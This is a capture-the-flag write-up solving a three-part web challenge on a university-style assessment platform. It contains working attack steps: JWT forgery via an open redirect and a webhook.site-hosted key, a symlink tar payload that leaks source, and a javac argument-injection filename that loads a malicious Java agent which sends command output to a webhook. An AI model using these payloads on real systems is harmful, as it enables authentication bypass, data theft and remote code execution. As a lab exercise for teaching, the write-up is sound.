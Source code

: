 # Solution

## Part 1

The goal for this part of the challenge is to bypass the authorization on the platform to access the URL `/admin`. Directly visiting `/admin` gets you redirected to the main page, so we need to find a way how to appear being the admin.

First let's create an account and try logging in. When we log in we get given an **JWT access token** which is used in the Authorization Bearer header for our requests. Putting this token into [jwt.io](https://jwt.io/), we can see that the JWT token is signed using the RS256 algorithm and has an **iss header**.

![](./images/jwtio.png)

The **iss (Issuer) header** is sometimes used to link to the location of the public key for validating a JWT token. We can verify that the public key is located at `/api/auth/pub-key`. However, if the web application is using the iss header for retrieving the public key then you can change the URL to a public key you generate and forge the session token.

To generate your forged JWT, run the following commands

```bash
openssl genrsa -out private.pem 4096
openssl rsa -in private.pem -pubout -outform PEM -out public.pem
```

For generating the JWT, using `pyjwt[crypto]`:

```python
import jwt

with open("./private.pem", 'r') as f:
    private_key = f.read()
        
jwt_token: str = jwt.encode(
    {"id": 1},
    private_key,
    headers={"iss": "https://webhook.site/a418960b-ca31-47f9-b5fd-8d3fd949fe31"},
    algorithm='RS256'
)

print(jwt_token)
```

However, just ISS header to an external URL gets rejected by the web application.

![](./images/failediss.png)

The only ISS headers are were the ISS header starts with `/api/auth/pub-key`. However, when you logout you visit the URL path `/api/auth/logout?redirect=/logout`. This API route has an **open redirect** vulnerability, so a URL path `/api/auth/pub-key/../logout?redirect=https://webhook.site/a418960b-ca31-47f9-b5fd-8d3fd949fe31/public.pem` would work!

![](./images/webhook1.png)

Now to bypass the authorization, you just need to upload your public.pem somewhere on the internet (eg. Github), set your `user_id` claim to `1` (good guess for an admin user), change your `token` in your browser's local storage and become the admin user!

![](./images/flag1.png)

---

## Part 2

The next goal from the challenge description is to leak the API source code. The flag is located in a file called `flag.txt` in the API folder.

As an admin, you can view all of the units, assessments, submissions, create new assessments and enrol students to units. One of the most interesting features is when you upload .zip, .tar or .tar.gz files for assessments that specify uploading only archive files your uploads are automatically extracted. On Linux, when you extract `tar` archives using `python` (hinted that python was used in the challenge description) **symbolic links are preserved**. So you can create a tar archive with a symbolic link to any folder on the system and then download the contents!

The easiest method is to link to `/`, which is very messy. A more neat solution is to assume that the API's working directory is in the API source code folder, so you can link to `/proc/self/cwd` instead to link the API source code.

The following code will generate the payload (named `exploit.tar.gz`) that you can upload.

```python
import tarfile

with tarfile.open('exploit.tar.gz', 'w:gz') as tar:
    info = tarfile.TarInfo("submission")
    info.type = tarfile.SYMTYPE
    info.linkname = "/proc/self/cwd"
    tar.addfile(info)
```

When you upload this archive, it lists all of the files in the API folder. However, the developer was lazy and only used `<a>` tags to link to the download that **does not send the Authorization HTTP header**. So you have to manually add your `Authorization` header again to download the flag file.

---

## Part 3

The final goal is to get RCE on the machine. Firstly, we need to download the application source code and see if there are any potential RCE vulnerabilities.

In `utils/assessments.py`, it reveals there is a third assessment type called `java-underdevelopment` that requires students to upload ZIP files of **.java code that is compiled using `subprocess.run`**.

*Code snippet from `utils/assessments.py`*
```python
...

def check_java_is_valid(folder)->bool:
    class_files = list_files(folder, allowed_ext=".java")

    temp_output = os.path.join("/", "tmp", "java", os.urandom(8).hex())
    os.makedirs(temp_output, exist_ok=True)
    old_cwd = os.getcwd()
    os.chdir(folder)

    # Using subprocess.run prevents any command injection students could exploit
    logging.error(["/usr/bin/javac", "-d", temp_output]+class_files)
    try:
        returned_code = subprocess.run(["/usr/bin/javac", "-d", temp_output]+class_files)
    except:
        return False
    finally:
        os.chdir(old_cwd)
    
    return returned_code == 0
```

Since `javac` is directly called using `subprocess.run`, normal command injection would not work but **it is vulnerable to command line argument injection by using file names in the ZIP archive**. There are siginificant limitations though, the filename cannot have a space and it needs to end with `.java`.

Researching potential methods to leveraging the argument injection to code execution, `javac` has the `-J` flag that passes a flag directly to the JVM while compiling the code! One of the flags you can pass to the JVM is the **`javaagent`**, which changes the agent that intercepts applications running on the JVM! Therefore, we can change the **Java Agent** to the JVM that compiles code to a malicious `javaagent` that we upload in the ZIP archive!

The code in [build-javaagent](./build-javaagent/) will compile a malicious Java Agent that will execute `getfinalflag` and send the output to our webhook.

Putting it all together:

1. Create a new assessment with the type set to `java-underdevelopment`.
2. Create a ZIP archive with two files. One of the files is your compiled Java Agent, renamed with a `.java` extension so it is included when `subprocess.run` is executed. The second file is for triggering the argument injection vulnerability (eg. `-J-javaagent:exploit.java`). An example payload is shown in [rce-payload](./rce-payload/).
3. Upload the ZIP file and profit!

![](./images/flag3.png)

![](./images/noice.png)